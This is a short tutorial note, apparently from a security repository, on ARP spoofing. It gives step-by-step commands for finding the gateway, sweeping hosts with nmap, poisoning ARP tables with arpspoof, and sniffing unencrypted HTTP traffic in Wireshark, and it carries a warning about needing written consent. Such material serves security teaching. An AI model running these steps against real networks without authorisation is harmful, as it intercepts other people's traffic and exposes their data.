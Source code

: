 # ARP Spoofing

### Tools

arpspoof \(kali\) -- works by forging ARP replies to communicating parties

**Requirements**

arpspoof / dsniff

Wireshark

### Sniffing on a private network - Step by Step

Figure out the Default Gateway first by command:

```
route -n
```

Narrow down the target by running \`nmap\` sweep 

> Be sure to get written consent for any network scanning activities. Criminal penalties can be levied onto you if permission is not granted.

```
nmap [host-network]
```

To start ARP spoofing, run

```
sudo arpspoof -i [interfacename] -c host -t [target-ip] [default-gateway-ip]
```

e.g.

```
sudo arpspoof -i wlan0 -c host -t 192.168.1.122 192.168.1.1
```

arpspoof should now be sending arp replies to the gateway and target with spoofed addresses

Open Wireshark and apply the `tcp port http` to listen to unencrypted traffic between the router and the target.

```
tcp port http
```

Once done, stop the `arpspoof` process to depoison ARP tables in gateway and target.

```
> arpspoof
[Ctrl+C] to send SIGINT signal
```



